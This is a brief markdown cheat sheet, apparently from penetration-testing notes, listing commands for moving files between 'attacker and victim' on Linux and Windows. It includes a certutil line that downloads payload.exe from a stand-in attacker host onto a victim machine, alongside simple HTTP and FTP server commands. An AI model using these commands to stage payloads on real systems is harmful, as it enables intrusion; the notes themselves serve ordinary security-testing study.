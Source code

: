 # Useful Commands

## Linux

- Bash
  - transfer files between attacker and victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim

## Windows

- cmd
  - transfer files between attacker and victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload.exe payload.exe`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files